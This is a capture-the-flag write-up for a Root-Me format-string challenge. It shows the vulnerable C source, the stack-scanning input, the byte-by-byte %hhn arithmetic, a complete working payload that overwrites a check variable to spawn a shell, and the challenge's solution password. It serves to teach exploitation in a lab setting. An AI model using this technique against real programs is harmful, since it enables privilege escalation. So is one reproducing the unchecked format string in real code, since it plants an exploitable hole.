 # ELF x86 - Format string bug basic 2
- Point: 20pts
- Author: [Lyes](https://www.root-me.org/Lyes?lang=en),  8 April 2015
- Level: Medium<br>
- SSH Access:&emsp;ssh -p 2222 app-systeme-ch14\@challenge02.root-me.org
- Password:&emsp;app-systeme-ch14

![image](https://user-images.githubusercontent.com/48288606/141644747-50305e8e-2a4d-4b42-8c15-5d3c4b322654.png)

## Write-up:

```
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
 
int main( int argc, char ** argv )
 
{
 
        int var;
        int check  = 0x04030201;
 
        char fmt[128];
 
        if (argc <2)
                exit(0);
 
        memset( fmt, 0, sizeof(fmt) );
 
        printf( "check at 0x%x\n", &check );
        printf( "argv[1] = [%s]\n", argv[1] );
 
        snprintf( fmt, sizeof(fmt), argv[1] );
 
        if ((check != 0x04030201) && (check != 0xdeadbeef))    
                printf ("\nYou are on the right way !\n");
 
        printf( "fmt=[%s]\n", fmt );
        printf( "check=0x%x\n", check );
 
        if (check==0xdeadbeef)
        {
                printf("Yeah dude ! You win !\n");
                setreuid(geteuid(), geteuid());
                system("/bin/bash");
        }
}
```
References:

[%n format specifier](https://www.geekforgeeks.org/g-fact-31/)<br>

Our aim is overwriting the **check**'s value. We leverage a vulnerability in 
`snprintf( fmt, sizeof(fmt), argv[1] );` 
with no **format specifier**. Examine the stack and find a way to change that value.

### Solution:
Let's try looking into the stack by usual payload to "scan" the stack<br>
`./ch14 aaaa.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x`<br>
Output:

![image](https://user-images.githubusercontent.com/48288606/146907436-2d2cfdb9-ab69-411b-a6e7-2366ba28adb9.png)

- As shown, the "AAAA" value is written in 9th of format string, we can prepare our value to this location.
- There are 2 ways to get **"deadbeef"** value. We can split it into 4 bytes or 2 bytes, the more division, the more relief execution time is. So i take second method.
- Split `0xdeadbeef` into 4 bytes and we will overwrite  with "little-endian" order. `0xef`, `0xbe`, `0xad`, `0xde` and convert to decimal for calculating for later as below:
```
>>> int(0xef)
239
>>> int(0x1be)
446
>>> int(0x2ad)
685
>>> int(0x3de)
990
```
- We have to make these value increase continously in our stack so we ensure that **0xef < 0x1be < 0x2ad < 0x3de** and then we use **%hhn** to get 1 byte value to have our desired values. (We can use **%hn** if we use the first method - split into 2 parts of 2 bytes). Then we calculate the value to add between these bytes to get specific value. 
  - We already have 16 bytes address, to get the right value of first byte. We pad more **239 - 16 = 223**
  - We already have 239 bytes above, to get the right value of first byte. We pad more **446 - 239 = 207**
  - We already have 446 bytes above, to get the right value of first byte. We pad more **685 - 446 = 239**
  - We already have 685 bytes above, to get the right value of first byte. We pad more **990 - 685 = 305**

Then we will change the value of **check** in its address (the program 's already shown it in output). Here's the layout of what we've done:

![image](https://user-images.githubusercontent.com/48288606/146911826-3d6f1aa6-cec3-4516-83da-dbaae0f18105.png)

Payload: `./ch14 $(python -c "print('\x98\xfa\xff\xbf' + '\x99\xfa\xff\xbf' + '\x9a\xfa\xff\xbf' + '\x9b\xfa\xff\xbf' + '%223d%9\$hhn' + '%207d%10\$hhn' + '%239d%11\$hhn' + '%305d%12\$hhn')")`

Pass: 1l1k3p0Rn&P0pC0rn


